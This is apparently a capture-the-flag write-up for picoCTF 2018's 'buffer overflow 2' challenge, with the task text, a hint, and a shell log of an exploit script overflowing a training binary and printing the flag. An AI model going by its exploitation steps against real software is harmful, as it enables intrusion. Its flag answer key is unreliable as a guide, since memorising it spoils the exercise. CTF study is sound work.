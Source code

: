 # buffer overflow 2 - Points: 250 - (Solves: 247)

Alright, this time you'll need to control some arguments
Can you get the flag from this [program][1]?
You can find it in
/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa
on the shell server
[Source][2].

[1]: https://2018shell2.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln
[2]: https://2018shell2.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln.c

## Hint

Try using gdb to print out the stack once you write to it!

---

Server shell

```sh
% cd
% ln -fs /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa/flag.txt ~/
% python xpwn.py
[*] '/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa/vuln': pid 456067
[*] ˅\x0F\x86\x0ﾭ�����
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅\x0F\x86\x0ﾭ�����
    picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
[*] Stopped process '/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa/vuln' (pid 456067)

```

picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
